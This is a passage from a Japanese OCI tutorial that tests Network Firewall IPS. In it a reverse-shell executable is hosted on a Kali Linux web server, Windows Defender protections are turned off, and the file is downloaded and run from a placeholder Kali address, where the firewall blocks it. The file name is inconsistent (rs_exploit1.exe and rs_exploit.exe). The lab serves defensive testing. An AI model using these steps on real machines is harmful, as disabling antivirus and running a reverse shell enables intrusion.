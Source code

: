 ## 6-2. Windowsサーバーでファイルのダウンロードと実行

本手順では、Network Firewallによって保護されたWindowsのインスタンスで、手順6-1で生成したファイルをダウンロードし、実行します。本来であれば、ファイルを実行したWindowsのインスタンスからKali Linuxへの通信が発生し、セッションが確立されます。セッションが確立されるとKali LinuxからWindowsのインスタンスに対して任意のコマンドを実行することができます。
しかし、今回はNetwork FirewallのIPSの機能によってファイルの実行が妨げられ、クライアントとKali Linux間の接続がリセットされます。

まずは実行ファイルをクライアントがダウンロードできるよう、ファイルをKali Linuxの/var/www/htmlディレクトリ配下にコピーします。
※Kali LinuxにはWebサーバーがデフォルトでインストールされています。
```sh
$ sudo cp rs_exploit1.exe /var/www/html
```
 ![画面ショット33](nfwips33.png)


続いて、OCIチュートリアル「OCI Network Firewallを構築する」の手順6-2[Windowsインスタンスの作成](/ocitutorials/security/networkfirewall-setup/#6-2-windowsのインスタンスの作成)で作成したWindowsのコンピュートインスタンスにリモートデスクトップ接続をします。
デスクトップのメニューからServer Managerを開きます。
 ![画面ショット34](nfwips34.png)

Local Server → Windows Defende AntivirusのReal-Time Protection:Onを選択します。
※合わせてIE Enfances Security ConfigurationがOffになっていることも確認してください。Onになっている場合、Offに変更してください。
 ![画面ショット35](nfwips35.png)

表示されたポップアップ画面にて、「Real-time protection」と、「Cloud-delivered protection」をOffにします。
 ![画面ショット36](nfwips36.png)

続いてInternet Explorerを開き、以下URIにアクセスすると、ファイルが自動的にダウンロードされ、ファイルを実行するか確認されます。
```
http://<Kali LinuxのIPアドレス>/rs_exploit.exe
```
ファイルの「Run」ボタンをクリックします。
 ![画面ショット37](nfwips37.png)

警告メッセージが表示された場合は、もう一度「Run」ボタンをクリックします。そうするとNetwork Firewallによってファイルの実行が遮断されます。
 ![画面ショット38](nfwips38.png)

Kali LinuxのMetasploit Frameworkでexploitコマンドを実行しているターミナルにも何も表示されていないので、実行は失敗していることが分かります。
 ![画面ショット39](nfwips39.png)

<br>

## 6-3. Network Firewallのログの確認

実際にNetwork Firewallのログに、脅威情報として上記のアクセスが記録されていることを確認します。
Network Firewallインスタンスの詳細画面左下のリソース→ログ→手順4で有効化したThreat Logの「ログ名」から、ログを確認します。
 ![画面ショット26](nfwips26.png)


手順1-3で作成したルール「others-ips」によって「TCP Shell Command」が検出され、WindowsのコンピュートインスタンスのプライベートIPアドレスからKali LinuxのパブリックIPアドレスに対して不正に発生している通信をNetwork Firewallがリセットしていることが分かります。
 ![画面ショット40](nfwips40.png)
